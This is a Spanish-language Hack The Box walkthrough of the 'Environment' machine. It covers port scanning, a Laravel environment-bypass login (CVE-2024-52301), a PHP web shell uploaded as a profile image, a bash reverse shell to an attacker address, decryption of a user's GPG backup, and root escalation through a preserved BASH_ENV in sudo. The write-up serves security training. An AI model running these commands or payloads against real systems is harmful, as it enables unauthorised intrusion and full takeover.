



Bienvenidos de vuelta mi querido Amigo Hacker la verdad esta maquina me costo pero se logro ya sabes lo importante es aprender y obtener conocimientos Animooo!! y a darle.

# Reconocimiento 

Puertos abiertos:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG PortsOpen 10.10.11.67
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.67 ()    Status: Up
Host: 10.10.11.67 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```

Servicios identificados:

```bash 
nmap -sCV -p22,80 -oN PortsInfo 10.10.11.67
Nmap scan report for environment.htb (10.10.11.67)
Host is up (0.082s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Save the Environment | environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Contamos con dos servicios Nginx a través del 80 y ssh por el puerto 22

Para visitar la pagina recuerda editar tu **/etc/hosts**

```bash
10.10.11.67 environment.htb
```

# Visitando environment.htb


Visitando la pagina nos encontramos con los siguiente, una pagina casi estática con solo un formulario para poner un correo electrónico 


Ya que no contamos con muchas cosas que hacer, realizaremos un descubrimiento de directorios para encontrar nuevas rutas o incluso un login que este oculto 


## Usando Dirsearch | Fuzzing

Usando la herramienta de Dirsearch podemos encontrar una ruta la cual es para un formulario de inicio de sección 

]]

En especifico es este:


No nos podemos registrar, solamente podemos iniciar sección 


## Laravel 

La pagina esta ocupando laravel con php, y como sabemos esto por dos cosas la primera es que usando la herramienta de **wappalyzer** nos da esta información y la otra es causada por un error el cual nos muestra un poco del código de la pagina 

Usando BurpSuite interceptaremos la petición de inicio de sección:



Modificaremos el parámetro de **remember** de Flase:


A **True**:


Con esto lograremos causar un error que nos mostrara la versión tanto de PHP como de laravel y un poco del código de como funciona 



Aquí algo importante, el código que muestra es clave para realizar un bypass, esta documentado en el siguiente CVE: https://github.com/Nyamort/CVE-2024-52301 

Para que funcione tenemos que modificar la petición de inicio de sección, agregar un parámetro para entrar en "preprod" que es en entorno virtual que nos interesa y modificar el **remember** a True
Como se muestra a continuación


Esto es desde el proxy no desde el Repeater 

si todo salió bien veremos esta solicitud **GET /dashboard**,


Y con esto hecho entraremos a un panel de administración vía Laravel env bypass :


# Abuso de subida de archivos 

El la sección de **Profile** tendremos la opción de subir una imagen como foto de perfil


Elije una foto de tipo PNG o JPEG y interceptaras la petición que se tramita por el botón de **Upload** 


La nadaremos al Repeater y borrarnos todo el contenido de la foto para insertar un web shell en Php y cambiaremos el nombre del archivo a **shell.php.**


La respuesta a esta petición es la ubicación del archivo que acabamos de subir 


Entraremos a esa ubicación y veremos  nuestra shell web 


De aquí solo queda mandarnos una rever Shell de toda la vida  

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.X.X/443 0>%261"
```



Recuerda hacer un tratamiento a la rever shell para operar mas cómodo 

```bash

script /dev/null -c bash
^Z # Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm;
export SHELL=bash
stty rows 41 columns 192
```

Una vez dentro tenemos la primera Flag :


# Dentro de environment 

Somo el usario www-data por lo cual las cosas que podemos realizar son muy pocas, revisando los usarios que tienen sus carpeta en /home solo encontramos uno llamado hish y dentro de su directorio de trabajo encontraremos la ruta de Backup con un archivo .gpg

Los archivos GPG son **conjuntos de claves privadas o públicas generadas por GNU Privacy Guard (GPG)**. Estas claves se utilizan para cifrar o descifrar archivos o mensajes en programas de cifrado de archivo como GNUPG o GnuPG.

Para poder ver lo que contiene este archivo necesitamos encontrar las claves que nos ayudaran a descifrarlo

Estas llaves se encuentran en **/home/hish/.gnupg** copiaremos todo lo que se encuentre en es carpeta a una carpeta donde podamos escribir y ejecutar por ejemplo en **/tmp**

Una ves copiados los archivos .d,.kbx .gpg y las carpetas ejecuta el siguiente comando 

```bash
gpg --homedir /tmp/hish --decrypt /home/hish/bakcup/keyvault.gpg
```


# Hish -> root 
Con la contraseña obtenida ingresa como el usuario hish  


Para elevar los privilegios y convertirnos en el usuario root, tenemos la capacidad de ejecutar un script de bash como el usuario root el cual es el de **/usr/bin/systeminfo** pero ojo aquí que cuando ejecutamos `sudo -l`, en la variable de entorno contamos con lo siguiente:

- `BASH_ENV` es una **variable de entorno especial** de bash
- Cuando bash se inicia en **modo no-interactivo**, automáticamente ejecuta el archivo/comando especificado en `BASH_ENV`


```bash
 echo '/bin/bash' > /tmp/pwned.sh
 chmod +x /tmp/pwned.sh 
 export BASH_ENV=/tmp/pwned.sh 
 sudo /usr/bin/systeminfo
```


# Explicación Detallada 

Esta vulnerabilidad aprovecha la combinación de una configuración insegura de `sudo` que preserva variables de entorno peligrosas, específicamente `BASH_ENV`, junto con la capacidad de ejecutar un comando como usuario privilegiado.

## Componentes Técnicos

### 1. Variable BASH_ENV

```bash
BASH_ENV
```

**Descripción:** Variable de entorno especial de Bash que especifica un archivo o comando a ejecutar cuando Bash se inicia en modo no-interactivo.

**Comportamiento:**

- Se evalúa cada vez que Bash se invoca en modo no-interactivo
- Se ejecuta antes que cualquier otro comando del script
- Hereda los privilegios del proceso que invoca Bash

### 2. Configuración Sudo Vulnerable

```
env_keep+="ENV BASH_ENV"
```

**Problema:** Esta directiva instruye a `sudo` a preservar la variable `BASH_ENV` del entorno del usuario, en lugar de limpiarla por seguridad.

**Configuración segura sería:**

```
env_reset
```

Sin excepciones para variables peligrosas.

## Vector de Ataque

### Prerequisitos

1. Capacidad de ejecutar un comando via `sudo`
2. Configuración `env_keep` que incluya `BASH_ENV`
3. El comando ejecutado debe invocar Bash directa o indirectamente

### Metodología de Explotación

**Paso 1: Crear payload malicioso**

bash

```bash
echo '/bin/bash -p' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```

**Paso 2: Configurar variable de entorno**

bash

```bash
export BASH_ENV=/tmp/payload.sh
```

**Paso 3: Ejecutar comando privilegiado**

bash

```bash
sudo /usr/bin/systeminfo
```

### Mecanismo Técnico

1. Usuario configura `BASH_ENV` apuntando a código malicioso
2. Usuario ejecuta comando via `sudo`
3. `sudo` preserva `BASH_ENV` debido a `env_keep`
4. El comando ejecutado invoca Bash (directa o indirectamente)
5. Bash evalúa `BASH_ENV` con privilegios elevados
6. Se ejecuta el payload malicioso como root


#laravel #php #BASH_ENV #Burpsite #HTB 